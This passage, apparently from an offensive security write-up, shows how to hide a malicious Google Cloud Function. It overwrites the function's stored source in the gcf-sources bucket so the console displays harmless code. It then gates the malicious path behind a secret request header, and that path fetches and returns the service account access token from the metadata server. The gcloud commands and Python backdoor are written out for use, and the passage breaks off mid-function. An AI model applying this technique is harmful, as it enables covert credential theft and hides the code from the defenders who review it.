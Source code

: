 2. List the objects inside the "<function_name>-<unique_identifier>/version-1" folder in the "gcf-sources-<project_number>-<region>" bucket.

Command:

```powershell
gcloud storage ls gs://gcf-sources-<project_number>-<region>/<function_name>-<unique_identifier>/version-1
```

3. Copy the Non-Malicious Source Code from Local Machine to the "<function_name>-<unique_identifier>/version-1/" folder in the "gcf-sources-<project_number>-<region>" bucket on Google Cloud Storage. This will replace the Malicious Source Code with the Non-Malicious Source Code.

Command:

```powershell
gcloud storage cp <local-path-of-non-malicious-sourcecode> gs://gcf-sources-<project_number>-<region>/<function_name>-<unique_identifier>/version-1/
# or
gsutils cp <local-path-of-non-malicious-sourcecode> gs://gcf-sources-<project_number>-<region>/<function_name>-<unique_identifier>/version-1/
```

<p><img src="https://drive.google.com/uc?id=1xzQoEFDkcrDgV1DII81hcQH52Oy0hk6X"></p>

Now when the Function is examined the Source Code would look Non-malicious.

<p><img src="https://drive.google.com/uc?id=1FKRS1M8YqT3YdV4VR5AEhAFpyxeE_48n"></p>

Let's invoke the Cloud Function and see which code is being executed.

<p><img src="https://drive.google.com/uc?id=1OAkVb8x-Zq-mD6oe9kZYxRxeN40iQg1j"></p>

Upon looking at the Source Code we can see that the Source Code looks Non-Malicious. But when we invoke the Cloud Function, the Malicious Source Code is being executed. 

Now there's a problem with that. The Cloud Function looks Non-malicious but upon invocation the malicious code is being executed. It does hide the Source Code but still there's an artifact left which is the Malicious Cloud Function Output. If someone invokes or the Cloud Function is triggered by any means the Malicious Code's Output would be revealed, which can raise suspicions. We can give the Role "Cloud Function Invoker" to our principal and give us the only permission to invoke the Cloud Function. But anyone with the required permissions can change the Cloud Function permissions and invoke the Cloud Function. So how do we hide the Malicious output from everyone else?

Well we can modify our code to introduce conditions to check the presence of a certain header and header value in the request. If the header is present and the header value is correct, the malicious code will be executed. If the header is not present or if the header is present but the value is wrong, the non-malicious code will be executed. 

#### We will modify the [Malicious code](#in-our-case-the-malicious-and-non-malicious-source-code-are-given-below) now to introduce the conditions.

```python
# Malicious Source Code
# filename: main.py
import requests

def anirban(request):
    if request.headers.get('my-header') == 'anirban-gcp':
        metadata_server_url = "http://169.254.169.254/computeMetadata/v1"
        metadata_key_url = f"{metadata_server_url}/instance/service-accounts/default/token"
        metadata_headers = {"Metadata-Flavor": "Google"}
        response = requests.get(metadata_key_url, headers=metadata_headers)
        access_token = response.text
        return access_token
    else:
        request_json = request.get_json()
```